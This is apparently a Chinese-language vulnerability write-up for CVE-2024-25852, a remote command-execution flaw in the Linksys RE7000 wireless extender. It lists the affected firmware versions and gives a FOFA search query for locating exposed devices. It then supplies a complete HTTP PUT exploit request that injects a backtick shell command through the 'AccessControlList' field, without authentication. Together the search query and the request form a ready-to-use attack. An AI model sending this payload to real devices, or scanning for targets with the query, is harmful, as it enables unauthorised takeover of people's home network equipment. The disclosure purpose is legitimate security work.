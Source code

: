 # CVE-2024-25852

> **Created By：**A-little-dragon
>
> **漏洞描述：**Linksys RE7000无线扩展器 RCE漏洞



# 0x01 简介

Linksys是贝尔金旗下一个销售家用与小型业务用网络产品的部门，主要经营宽带与无线路由器。RE7000是Linksys推出的一款新型双频AC1900无线扩展器，具有无缝漫游功能。

# 0x02 漏洞描述

Linksys RE7000无线扩展器在访问控制功能点的“AccessControlList”参数中存在命令执行漏洞。未经身份验证的远程攻击者可以利用该漏洞获取设备管理员权限。

# 0x03 影响范围

```bash
RE7000 v2.0.9
RE7000 v2.0.11
RE7000 v2.0.15
```

# 0x04 FOFA语法

```bash
body="/login.shtml?ran="
```

# 0x05 漏洞复现

```bash
PUT /goform/AccessControl HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Thu, 17 Sep 2020 11:24:58 GMT
If-None-Match: "14600429"
Content-Length: 81

{"AccessPolicy":"0","AccessControlList":"`ps>/etc_ro/lighttpd/RE7000_www/1.txt`"}
```

![Untitled](image/Untitled.png)